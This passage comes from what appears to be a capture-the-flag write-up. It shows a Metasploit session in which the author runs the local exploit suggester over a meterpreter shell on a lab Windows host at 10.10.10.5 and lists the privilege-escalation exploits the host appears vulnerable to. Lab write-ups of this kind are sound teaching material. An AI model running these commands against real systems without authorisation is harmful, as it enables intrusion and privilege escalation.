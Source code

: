 ```bash

```

## Finding a Suggested Exploit

Now that I had a shell, it was time to exploit. To help me find a suitable exploit, I used Metasploit's ```local_exploit_suggester``` which scans for exploits using information that it can gather from the meterpreter session that I opened earlier.

```bash
msf5 exploit(multi/handler) > search suggest

Matching Modules
================

   #  Name                                             Disclosure Date  Rank    Check  Description
   -  ----                                             ---------------  ----    -----  -----------
   0  auxiliary/server/icmp_exfil                                       normal  No     ICMP Exfiltration Service
   1  exploit/windows/browser/ms10_018_ie_behaviors    2010-03-09       good    No     MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   2  exploit/windows/smb/timbuktu_plughntcommand_bof  2009-06-25       great   No     Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   3  post/multi/recon/local_exploit_suggester                          normal  No     Multi Recon Local Exploit Suggester
   4  post/osx/gather/enum_colloquy                                     normal  No     OS X Gather Colloquy Enumeration
   5  post/osx/manage/sonic_pi                                          normal  No     OS X Manage Sonic Pi



msf5 exploit(multi/handler) > use 3
msf5 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 30 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
```